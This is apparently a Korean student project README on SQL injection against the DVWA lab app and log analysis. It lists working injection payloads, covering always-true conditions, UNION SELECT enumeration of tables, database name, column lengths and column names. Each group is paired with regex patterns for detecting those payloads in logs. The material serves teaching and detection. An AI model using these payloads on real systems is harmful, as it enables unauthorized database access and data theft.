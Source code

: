 ## SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
### 1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #

이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.



표현식
- (\d)*?'\s*?or\s(1=1|true|\'\d*\'=\'\d*\')
- or\s+('1'='1'|true|1=1)

---
### 2. UNION SELECT
UNION은 두 개 이상의 SELECT문의 결과를 하나의 결과로 만들어줍니다. 이때 각 SELECT문은 같은 수의 컬럼을 가져야 하며, 각 열의 데이터 타입이 일치해야 합니다. 이러한 특성을 이용해 데이터베이스의 구조나 정보를 알아낼 수 있습니다. 사용된 payload를 확인해보면 컬럼의 길이, 테이블 이름, 컬럼의 데이터를 알아내는데 사용되었습니다.
- ' UNION SELECT 1 #
- ' UNION SELECT 1, 2 #
- ' UNION SELECT 1, 2, 3 #
- ' UNION SELECT 1, table_name FROM information_schema.tables #
- ' UNION SELECT table_name,2 FROM information_schema.tables #
- ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='dvwa' #

위 예시의 쿼리문들을 이용해 컬럼의 개수 및 데이터베이스의 정보를 알아내는데 사용할 수 있습니다.



표현식
- (\d)*?\'\s*?union\sselect\s(\d+\s*?\,\s*?)*\d+\s*?(#)
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?table_name\s(\d*?\s*?\,\s*?)*\d*?\s*?from\sinformation_schema\.tables\s(where\stable_schema\s*?\=\s*?\'(.*)\')*?
- select \d+(\s*,\s*\d+)+
- select.*table_name.*from\s*information_schema.tables

---
### 3. DB 정보 확인
database() 함수는 MySQL에서 현재 연결된 데이터베이스의 이름을 반환합니다. 이 함수를 사용해 현재 사용중인 데이터베이스의 이름을 알아내 데이터베이스의 구조를 파악해 SQL 인젝션 공격을 계획할 수 있게 됩니다.
- ' UNION SELECT 1,database() #`
- ' UNION SELECT database(), 2 #`



표현식
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?database\(\)
- select.*database()

---
### 4. 컬럼 길이 확인
특정 테이블의 컬럼 이름 길이를 알아내기 위한 payload입니다. information_schema.columns과 LENGTH() 함수를 이용해 특정 테이블의 컬럼 이름의 길이를 추측해 데이터베이스 구조를 탐색합니다.
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=1) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=2) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=3) #`

위 쿼리를 보면 이름의 길이를 순차적으로 증가시키며, 데이터베이스 구조를 탐색하려는 의도임을 알 수 있습니다.



표현식
- (\d)*?\'\s*?and\s\(select\s\d\sfrom\sinformation_schema\.columns\swhere\stable_schema\=\'(.*)\'(\sand\stable_name\=\'(.*)\')*?(\sand\slength\(column_name\)\=\d)*?
- select.*from.*where.*length\(.*\)

---
### 5. 컬럼 이름 확인
이 페이로드는 information_schema를 이용해 특정 테이블의 컬럼 이름을 추출합니다. LIMIT 절을 사용해 특정 위치의 컬럼 이름을 선택합니다.
- ' UNION SELECT 1,column_name from information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION select 1,column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' and table_schema='dvwa' #



표현식
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?column_name
- select.*column_name.*from\s*information_schema.columns
